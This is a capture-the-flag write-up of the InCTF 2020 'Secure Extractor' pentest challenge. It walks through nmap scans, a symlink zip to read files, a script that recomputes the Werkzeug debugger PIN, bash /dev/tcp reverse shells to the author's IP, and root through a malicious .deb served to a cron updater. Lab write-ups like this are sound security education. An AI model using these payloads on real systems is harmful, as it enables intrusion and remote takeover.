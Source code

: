 ```yaml
---
title: "Inctf2020 Secure Extractor"
date: 2020-08-02T21:27:26+02:00
showDate: true
draft: false
tags: ["ctf","pentest","network","python"]
---
```


Secure Extractor
============
#### [pentest, 22 solves]

> ```TLDR; You had to exploit file upload mechanism in python application to get access to python developer console. To escalate to the root user, you had to make use of bash script, which was executed every minute by cron.```

There are only few CTFs during the year, which have "pentest" or "network" challanges. InCTF is one of them. For each challange you had to download separate OpenVPN config and connect to the enviroment. Each team have it's own enviroment.

First thing that I did, after connecting to the VPN, was scan of the network:

```
➜  nmap -sP 172.30.0.0/28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 20:43 BST
Nmap scan report for 172.30.0.4
Host is up (0.16s latency).
MAC Address: 02:42:D7:96:33:FB (Unknown)
Nmap scan report for 172.30.0.14
Host is up.
Nmap done: 16 IP addresses (2 hosts up) scanned in 3.07 seconds
```

`172.30.0.14` was mine IP, so the target was `172.30.0.4`. Scan of all TCP ports showed that there was ssh and some service at port 5000:

```
➜  nmap -p- -vvv -sT -oN nmap/alltcp 172.30.0.4
(...)
Nmap scan report for 172.30.0.4
Host is up, received arp-response (0.15s latency).
Scanned at 2020-08-01 19:18:48 BST for 1370s
Not shown: 65532 closed ports
Reason: 65532 conn-refused
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack
5000/tcp  open     upnp    syn-ack
56921/tcp filtered unknown no-response
MAC Address: 02:42:D7:96:33:FB (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1370.13 seconds
           Raw packets sent: 1 (28B) | Rcvd: 1 (28B)
```

Quick check of port 5000 revealed that it's a python application, prolly written in flask or django

```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 7435
Server: Werkzeug/1.0.1 Python/3.6.9
```

Few ideas come to my mind when there's file upload and archive extraction in the application and the one that actually worked was symlink trick. Using standard `zip` command you can create zip archive that will pack symlink, without following it.

```
➜  ln -s / test
➜  zip --symlinks -r test.zip test 
  adding: test (stored 0%)
```

After uploading crafted zip file, I had full filesystem access (where current user had permissions).

![image](/images/posts/secure-extractor-2.png)

Unfortunately, there wasn't any ssh keys or stored passwords. Also I couldn't view `/root`, so the application was running on low privileged user. After playing a bit with application I managed to crash it, by changing name parameter in Content-Disposition header.

```
Content-Disposition: form-data; name="invalid"; filename="test.zip"
```
So I knew that developer console was enabled. However, it was protected by the PIN, which is generated on the application start. Some time ago I read post about pwning python applications. That post went into details about how is this PIN generated. Basically, if you have some kind of access to the filesystem (eg. through LFI or path traversal), you can recalucate this PIN.

![image](/images/posts/secure-extractor-1.png)

After a little bit of googling I found [writeup](https://ctftime.org/writeup/17955) (great writeup btw.) that described whole process and has code that generates PIN. All I had to do was to gather some information from the filesystem.

```python
from itertools import chain
import hashlib
import getpass
import os

pin = None
rv = None
num = None

probably_public_bits = [ 
  'joyhopkins', # username 
  'flask.app',  # modname
  'Flask',
  '/usr/local/lib/python3.6/dist-packages/flask/app.py' 
] 

private_bits = [ 
  '2486108042235',  # 02:42:d7:96:33:fb  
  'bcba4b3f193446328c240f73bfd693ba'
] 

h = hashlib.md5() 

# Bit is going through every thing in probably_public_bits and private_bits
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, unicode):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt") 

if num is None: 
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9] 

if rv is None: 
    for group_size in 5 , 4 , 3: 
        if len(num) % group_size == 0: 
            rv = '-' .join (num [x: x + group_size] .rjust (group_size, '0') 
            for x in range(0, len(num), group_size)) 
            break 
        else:
            rv = num

print(rv)
```

The PIN generated for my instance was `520-633-406`. With access to python console, I could easily get reverse shell.

```python
import os
os.system("bash -c 'bash >& -i /dev/tcp/172.30.0.14/443 0>&1'")
```

Container had few processes running. One of them was cron. Quick glance on `/etc/crontab` showed that there was some bash script executed every minute.
```bash
joyhopkins@8f4ccaf7cf86:~/project/Uploads/zip$ cat /usr/bin/updater
#!/bin/bash
set -x
server="updates.safextractor.lan"
path="/uploads/packages/"

download () {
    server=$1
    path=$2
    mkdir -p /tmp/packagebuild && cd /tmp/packagebuild
    wget -r -np -R "index.html*" http://$1$2
}

install_pkg () {
    server=$1
    path=$2
    cd /tmp/packagebuild/$server$path
    for i in $(ls); do dpkg -i $i || true; done   
}

nc -z $server 80

if [ $? == 1 ]
then
    echo "Server Not Reachable!"
    exit 1
else
    download $server $path
    install_pkg $server $path
fi
```

Script was downloading all the files, recursively from the web server and tried to install each of them with `dpkg`. However, at that moment it wasn't doing anything, because host `updates.safextractor.lan` was down. It didn't respond to pings or http requests. It's ip was "hard coded" in `/etc/hosts`.

```
joyhopkins@8f4ccaf7cf86:~/project/Uploads/zip$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.30.0.4      8f4ccaf7cf86
172.30.0.6       updates.safextractor.lan
```

I was stuck, because I thought that I had to do some network ninjutsu, but after a while I realised, why I can't just take this ip since it's offline, right?

```
➜  ip a add 172.30.0.6/28 dev tap0
➜  ip a                           
(...)
143: tap0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/ether 16:02:bf:7e:5d:68 brd ff:ff:ff:ff:ff:ff
    inet 172.30.0.14/28 brd 172.30.0.15 scope global tap0
       valid_lft forever preferred_lft forever
    inet 172.30.0.6/28 scope global secondary tap0
       valid_lft forever preferred_lft forever
    inet6 fe80::1402:bfff:fe7e:5d68/64 scope link 
       valid_lft forever preferred_lft forever
```

After a minute I received http request from `172.30.0.4`.

```
➜  python3 -m http.server 80                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.30.0.4 - - [02/Aug/2020 22:39:02] code 404, message File not found
172.30.0.4 - - [02/Aug/2020 22:39:02] "GET /uploads/packages/ HTTP/1.1" 404 -
```

The last step was to craft malicious deb file and serve it to the target machine. To generate it I used [Derbie](https://github.com/mthbernardes/Derbie).

```
➜  cat ../payload.sh 
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/172.30.0.14/443 0>&1'
➜  python3 Derbie.py pwn ../payload.sh
➜  mv debs/pwn_43_all.deb ../www
➜  cd ../www
➜  mkdir -p uploads/packages
➜  mv pwn_43_all.deb uploads/packages
```

A minute later root was pwned.
```
inctf{35526e4b5039555065676d3533556138646d334136446a524b74723578757671}
```
